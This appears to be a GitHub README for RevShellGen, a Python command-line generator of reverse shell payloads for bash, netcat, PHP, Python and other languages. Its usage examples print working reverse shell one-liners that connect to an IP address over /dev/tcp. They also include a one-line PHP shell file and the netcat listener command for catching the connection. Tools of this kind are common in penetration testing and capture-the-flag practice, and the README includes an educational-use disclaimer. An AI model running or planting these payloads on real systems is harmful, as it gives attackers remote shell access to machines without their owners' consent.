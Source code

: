 # RevShellGen
RevShellGen is a command line reverse shell generator. It can easily generate predefined reverse shells.

Right now tested only for python3 and under linux environment.

**Disclaimer: This repository, information and scripts in it are for educational purposes only. 
Users take full responsibility for any actions performed using this tool. 
The author accepts no liability for damage caused by this tool.**

## TODO
- add other reverse shell payloads
- check support for windows
- check support for python2

## Usage
Install required packages from `requirements.txt`.
```
pip3 install -r requirements.txt
```

Run with python3
```
$ python3 rsg.py 
 ______               _______ __           __ __ _______              
|   __ \.-----.--.--.|     __|  |--.-----.|  |  |     __|.-----.-----.
|      <|  -__|  |  ||__     |     |  -__||  |  |    |  ||  -__|     |
|___|__||_____|\___/ |_______|__|__|_____||__|__|_______||_____|__|__|
                                                                      

Available payloads: ['bash', 'java', 'netcat', 'perl', 'php', 'php_reverse_shell_file', 'python', 'ruby', 'tiny_php_shell_file']

usage: rsg.py [-h] [--ip IP] [--interface INTERFACE] [--port PORT] [--payload PAYLOAD] [-s]

optional arguments:
  -h, --help            show this help message and exit
  --ip IP               Local IP address
  --interface INTERFACE
                        Interface
  --port PORT           Opened port
  --payload PAYLOAD     Define which payload to generate
  -s, --silent          Print out only payload
```

Define interface OR ip address, and payload to generate specific payload/s
```
$ python3 rsg.py --ip 10.10.10.10 --payload bash
 ______               _______ __           __ __ _______              
|   __ \.-----.--.--.|     __|  |--.-----.|  |  |     __|.-----.-----.
|      <|  -__|  |  ||__     |     |  -__||  |  |    |  ||  -__|     |
|___|__||_____|\___/ |_______|__|__|_____||__|__|_______||_____|__|__|
                                                                      

Available payloads: ['bash', 'java', 'netcat', 'perl', 'php', 'php_reverse_shell_file', 'python', 'ruby', 'tiny_php_shell_file']

Payload:
bash -i >& /dev/tcp/10.10.10.10/8080 0>&1

Payload:
0<&196;exec 196<>/dev/tcp/10.10.10.10/8080; sh <&196 >&196 2>&196

Payload:
/bin/bash -l > /dev/tcp/10.10.10.10/8080 0<&1 2>&1



For local listener execute:
nc -nvlp 8080
```

When you want to generate file payload (for example `tiny_php_shell_file`), you can use `--silent`
```
$ python3 rsg.py --ip 10.10.10.10 --payload tiny_php_shell_file -s > tiny_shell.php
$ cat tiny_shell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8080 0>&1'");?>
```

## References
[1] http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

[2] https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

[3] https://gist.github.com/rshipp/eee36684db07d234c1cc#file-shell-php
